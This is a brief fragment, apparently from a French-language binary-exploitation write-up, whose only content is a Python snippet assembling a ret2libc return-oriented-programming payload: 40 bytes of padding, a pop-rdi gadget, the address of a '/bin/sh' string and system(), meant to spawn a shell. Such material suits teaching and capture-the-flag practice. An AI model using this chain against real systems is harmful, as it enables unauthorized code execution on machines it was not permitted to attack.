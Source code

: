 ## Résultat

``` python
payload = ""
payload += "A" * 40
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```
